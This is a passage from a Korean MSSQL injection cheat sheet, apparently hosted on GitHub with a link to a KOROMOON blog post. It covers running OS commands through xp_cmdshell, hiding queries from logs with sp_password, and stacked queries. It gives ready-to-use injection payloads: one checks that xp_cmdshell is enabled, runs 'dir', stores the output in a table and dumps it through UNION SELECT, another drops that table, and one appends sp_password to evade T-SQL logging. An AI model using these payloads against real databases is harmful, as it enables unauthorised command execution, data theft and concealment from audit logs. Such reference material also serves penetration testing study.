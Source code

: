 ## (13) 시스템 명령어 실행

운영 체제 명령어를 실행하도록 하는 xp_cmdshell 확장 저장 프로시서를 포함시켜야 함.<br><br>

`EXEC master.dbo.xp_cmdshell 'cmd';`<br><br>

MSSQL 2005 이상 버전부터 xp_cmdshell 은 기본적으로 비활성화되어 있지만 다음 쿼리를 사용하여 활성화시킬 수 있음.<br><br>
![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/b230fab6-eab5-4eae-80a5-c4d30514cf24)
<br><br>
또는, 동일한 결과를 얻기 위해 자체 프로시저를 만들 수 있음.<br><br>
![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/fa3e8b41-f145-4f4c-9df9-79b56d864eb1)
<br><br>
SQL 버전이 2000 보다 높으면 이전 명령을 실행하기 위해 추가 쿼리를 실행해야 함.<br><br>
![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/e23a453d-167c-4bb9-ba4f-6e491be594aa)
<br><br>
예 :<br>
`xp_cmdshell 이 로드되어 활성화되어 있는지 확인한 다음 dir 명령어를 실행하여 그 결과값을 TMP_DB에 삽입함 :`<br>
`' IF EXISTS (SELECT 1 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME='TMP_DB') DROP TABLE TMP_DB DECLARE @a varchar(8000) IF EXISTS(SELECT * FROM dbo.sysobjects WHERE id = object_id (N'[dbo].[xp_cmdshell]') AND OBJECTPROPERTY (id, N'IsExtendedProc') = 1) BEGIN CREATE TABLE %23xp_cmdshell (name nvarchar(11), min int, max int, config_value int, run_value int) INSERT %23xp_cmdshell EXEC master..sp_configure 'xp_cmdshell' IF EXISTS (SELECT * FROM %23xp_cmdshell WHERE config_value=1)BEGIN CREATE TABLE %23Data (dir varchar(8000)) INSERT %23Data EXEC master..xp_cmdshell 'dir' SELECT @a='' SELECT @a=Replace(@a%2B'<br></font><font color="black">'%2Bdir,'<dir>','</font><font color="orange">') FROM %23Data WHERE dir>@a DROP TABLE %23Data END ELSE SELECT @a='xp_cmdshell not enabled' DROP TABLE %23xp_cmdshell END ELSE SELECT @a='xp_cmdshell not found' SELECT @a AS tbl INTO TMP_DB--`<br><br>

컨텐츠 덤프 :<br>
`' UNION SELECT tbl FROM TMP_DB--`<br><br>

테이블 삭제 :<br>
`' DROP TABLE TMP_DB--`<br><br><br>



## (14) SP_PASSWORD (쿼리 숨기기)

쿼리 끝에 sp_password 를 추가하면 T-SQL 로그에서 sp_password 를 숨김.<br><br>

`SP_PASSWORD`<br><br>

예 :<br>
`' AND 1=1--sp_password`<br><br>

결과값 :<br>
-- 'sp_password'는 이 이벤트의 텍스트에서 발견되었습니다.<br>
-- 보안상의 이유로 텍스트에 주석으로 대체되었습니다.<br><br><br>



## (15) 누적된 쿼리(Stacked Queries)

MSSQL 은 누적된 쿼리(Stacked Queries)를 지원함.<br><br>


[KOROMOONlink]: https://koromoon.blogspot.com/2018/10/mssql-injection-cheet-sheet.html "Go KOROMOON"
